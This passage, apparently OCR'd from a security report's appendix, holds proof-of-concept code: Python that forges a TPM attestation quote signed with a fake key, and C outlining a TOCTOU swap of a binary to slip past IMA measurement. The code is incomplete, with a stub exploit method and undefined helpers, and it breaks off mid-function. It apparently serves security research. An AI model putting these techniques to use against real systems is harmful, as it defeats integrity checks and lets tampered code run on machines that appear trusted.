 ```python
        return rsa.generate_private_key(
            public_exponent=65537,
            key_size=2048
        )
    
    def craft_malicious_quote(self, nonce):
        """Craft a quote that appears legitimate"""
        # Create fake quote structure
        quote_data = {
            "magic": 0xFF544347,
            "type": "TPM_ST_ATTEST_QUOTE", 
            "nonce": nonce,
            "pcr_values": self.target_pcrs,
            "timestamp": int(time.time())
        }
        
        # Sign with fake AK
        quote_bytes = self.serialize_quote(quote_data)
        signature = self.fake_ak.sign(
            quote_bytes,
            padding.PSS(
                mgf=padding.MGF1(hashes.SHA256()),
                salt_length=padding.PSS.MAX_LENGTH
            ),
            hashes.SHA256()
        )
        
        return quote_bytes, signature
    
    def exploit(self, verifier_url, agent_uuid):
        """Execute the attestation bypass exploit"""
        # Implementation details for the actual exploit
        pass
```

##### B. IMA Bypass PoC
```c
/*
 * Proof of Concept: IMA Measurement Bypass
 * This demonstrates TOCTOU attack against IMA measurements
 */

#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <signal.h>

void toctou_attack() {
    char *target_file = "/tmp/legitimate_binary";
    char *malicious_file = "/tmp/malicious_binary";
    
    // Create legitimate file for IMA measurement
    create_legitimate_binary(target_file);
    
    // Set up signal handler for precise timing
    signal(SIGALRM, replace_file_handler);
    
    // Execute the file - IMA will measure it
    alarm(1);  // Trigger replacement after 1 second
    execve(target_file, argv, envp);
}

void replace_file_handler(int sig) {
```